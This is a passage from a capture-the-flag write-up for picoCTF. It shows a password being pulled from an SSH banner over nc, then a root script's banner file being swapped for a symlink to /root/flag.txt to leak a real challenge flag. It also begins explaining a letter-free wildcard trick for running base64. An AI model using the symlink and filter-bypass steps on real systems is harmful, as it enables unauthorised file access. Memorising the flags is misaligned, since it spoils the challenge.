 I tried to prove this server in many way, but finally it just need to connect with nc.
```Bash
$ nc tethys.picoctf.net 63705
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
It looks like password.<br />
Then,Connect to the second server and answer some question.<br />
```Bash
$ nc tethys.picoctf.net 58650
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
Draper
player@challenge:~$
```
I got the shell and found script.py in root directory after digging.
```Python
# Part of script.py
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")
```
File /home/player/banner exists in home directory and I can edit it.<br />
There's also flag.txt in /root/ .<br />
Delete /home/player/banner and create symlink pointing to '/root/flag.txt'.
```Bash
player@challenge:~$ rm banner
player@challenge:~$ ln -s /root/flag.txt banner
player@challenge:~$ ls
banner  text

# Reconnect
$ nc tethys.picoctf.net 58650
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

what is the password?
```
## SansAlpha
In this challenge, I have to read flag.txt without using alphabet.<br />
But we could use wild card.
So we could find the file like './*' and call '/bin/base64' like '/???/????64'<br />
But '/???/????64' also point '/bin/x86_64' so we have to run /???/????64[0]<br />
